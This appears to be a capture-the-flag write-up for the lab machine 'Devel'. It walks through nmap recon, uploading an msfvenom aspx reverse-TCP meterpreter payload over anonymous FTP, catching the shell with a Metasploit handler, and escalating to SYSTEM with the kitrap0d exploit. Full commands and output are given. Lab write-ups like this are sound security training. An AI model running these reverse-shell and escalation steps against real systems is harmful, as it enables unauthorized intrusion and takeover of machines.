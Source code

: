 # Devel

IP: `10.10.10.5`

## Initial recon

```sh
nmap -A -T5 -p- 10.10.10.5
```

results
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-16 01:22 EDT
Nmap scan report for 10.10.10.5
Host is up (0.082s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-19-20  01:23PM                30442 dog.jpg
| 03-19-20  02:00PM                 2852 ex.aspx
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows Vista|2008|7|Phone|8.1|2012 (91%)
OS CPE: cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8.1 (90%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (90%), Microsoft Windows 7 (90%), Microsoft Windows 7 Professional or Windows 8 (90%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   86.30 ms 10.10.14.1
2   87.06 ms 10.10.10.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.91 seconds
```

## Interpretation of results

Seems like there is a FTP where I can put files on. Additionally, there is a frontend on port `80` where I can arbitrarily execute files. This may be a reverse shell exploit.

Navigating to this webside, we see that this is an ASP.net web site. So we will generate the according payload for this machine.

## Generating the payload

From this msfvenom cheat sheet: https://netsec.ws/?p=331, we will use the aspx payload command.

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f aspx > shell.aspx
```

**Important note**!: Make sure to use the `tun0` inet IP from `ifconfig` instead of the `eth0`
## Setting up the listener for reverse shell
In a new tab, we are going to run the exploit handler to listen on a port

```sh
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.10
```

## Putting payload onto the server

```sh
ftp 10.10.10.5
ftp> put shell.aspx
```

## Running the reverse shell

Navigate to the website URL `http://10.10.10.5/shell.aspx`
And boom! We have a meterpreter shell.

## Reverse shell

After getting the reverse shell, running a quick `getuid` gives back a non-root user. 

Trying to elevate:

```sh
getsystem
```

annd it doesn't work.

## Post explotation

Let's try to elevate to root
First, background the meterpreter shell
```sh
background # background the meterpreter
```

Let's see if there are any suggestions for exploits

```sh
search suggester
use post/multi/recon/local_exploit_suggester
set session 1 # the session ID of our meterpreter shell
run
```

The possible exploit suggestions:

```
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 29 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

## Root privelege elevation

Let's try the kitrap0d one

```sh
use exploit/windows/local/ms10_015_kitrap0d
set session 1
```

and it returns

```
[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Launching notepad to host the exploit...
[+] Process 336 launched.
[*] Reflectively injecting the exploit DLL into 336...
[*] Injecting exploit into 336 ...
[*] Exploit injected. Injecting payload into 336...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.
```

but no session was created! WHY?

This is because the lhost defaulted to our `eth0` interface, which is incorrect. It should be on the `tun0` interface.

So we need to set the lhost again

```sh
set lhost 10.10.14.10
run
```

And now we finally have a root meterpreter shell

```sh
getuid
# NT AUTHORITY\SYSTEM
```

Get the flags and we are done

## Takeaways

1. There may be multiple stages to an exploit, not just running a script.
2. Knowing the background on a web framework can be helpful.
3. Reverse shells can be tricky.
